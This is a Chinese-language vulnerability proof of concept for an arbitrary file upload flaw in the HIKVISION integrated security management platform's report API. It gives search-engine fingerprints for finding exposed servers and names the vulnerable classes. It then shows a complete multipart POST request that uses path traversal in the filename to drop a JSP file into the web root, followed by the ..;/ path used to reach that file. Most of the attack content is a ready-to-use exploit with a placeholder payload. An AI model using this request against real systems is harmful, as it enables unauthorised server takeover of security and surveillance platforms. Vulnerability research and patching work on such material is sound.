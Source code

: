 # HiKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台 

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317-20230809120725683.png)

```plain
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681709277423-114b364b-2e5a-4fb0-a7b9-26154f61ca9e.png)

```plain
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681709313430-8f4e019f-f3b7-41fc-a86b-ba1c07e59d45.png)构造请上传文件 (通过 env泄漏获取绝对路径，路径一般不会修改)















```sql
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681709342417-a815332d-13c9-40e4-844a-42eb54661897.png)

```plain
/portal/ui/login/..;/..;/new.jsp
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681709424146-cb0ef1b8-4732-4c3a-a041-37bad6125d44.png)

